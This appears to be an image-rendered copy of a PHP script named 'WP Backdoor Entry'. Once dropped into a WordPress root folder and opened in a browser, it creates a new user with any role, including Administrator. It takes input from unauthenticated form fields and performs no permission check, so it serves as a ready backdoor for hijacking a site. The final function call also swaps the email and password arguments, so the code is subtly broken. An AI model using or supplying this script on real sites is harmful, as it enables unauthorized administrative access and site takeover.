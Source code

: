

  ```
  <?php
/*

  Script Name: WP Backdoor Entry
  
  Description: A script to create a new user with Administrator role.
  
  Usage: Copy this file into your WordPress root folder and execute the script via the browser.

  */


$wp_folder  = '';
$username   = '';
$email      = '';
$password   = '';
$role       = '';

/** Make sure that the WordPress bootstrap has run before continuing. */
if (!empty($wp_folder)) {
  $wp_load_path = $wp_folder . '/wp-load.php';
} else {
  $wp_load_path = 'wp-load.php';
}

if (!file_exists($wp_load_path)) {
  echo "ERROR! wp-load.php does not exist!";
  echo '<br>';
  exit;
}

include($wp_load_path);

function ac_create_wp_user($username, $email, $password, $role)
{

  if( isset($_POST['submit'])) {
    $username  = htmlentities($_POST['name']);
    $email     = htmlentities($_POST['email']);
    $password  = htmlentities($_POST['password']);
    $role      = strtolower(htmlentities($_POST['role']));
  }

  if (!username_exists($username) && !email_exists($email)) {

    $user_id = wp_create_user($username, $password, $email);
    $user = new WP_User($user_id);
    $user->set_role($role);

  } else {
    echo 'ERROR! The username or email is already exists!';
    echo '<br>';
    exit;
  }

  if (! empty($username) && ! empty($password) && ! empty($email)) {
    header("Location: /wp-login.php");
    exit;
  }
}

ac_create_wp_user($username, $password, $email, $role);
  ```
